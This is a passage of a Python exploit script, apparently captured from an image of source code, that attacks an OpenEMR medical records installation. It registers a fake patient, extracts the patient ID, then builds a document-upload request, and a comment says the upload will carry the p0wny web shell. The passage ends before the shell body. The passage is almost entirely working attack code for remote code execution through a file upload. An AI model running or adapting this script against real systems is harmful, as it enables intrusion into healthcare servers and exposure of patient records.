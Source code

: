         'i3subscriber_ss': '',
        'form_i3subscriber_sex': '',
        'i3subscriber_street': '',
        'i3subscriber_city': '',
        'form_i3subscriber_state': '',
        'i3subscriber_postal_code': '',
        'form_i3subscriber_country': '',
        'i3subscriber_phone': '',
        'i3copay': '',
        'i3accept_assignment': 'TRUE'}

    print('')
    print('[+] Registering patient:')
    x = session.post(url_reg, headers=header, data=body).text

    # Get Patient-ID:
    id = x[(x.find('pid=')+4):x.find('&')]
    print('    [*] ID-NUMBER: ' + id)

    # Construct upload URL:
    url_upload = 'http://' + target_ip + ':' + target_port + openemr_path + '/controller.php?document&upload&patient_id=' + id + '&parent_id=1&"'

    # Header (upload):
    header = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "de,en-US;q=0.7,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------370797319835249590062969815666",
        "Origin": 'http://' + target_ip,
        "Connection": "close",
        "Referer": url_upload,
        "Upgrade-Insecure-Requests": "1"
    }

    # Body (shell); I'm using p0wny shell: https://github.com/flozz/p0wny-shell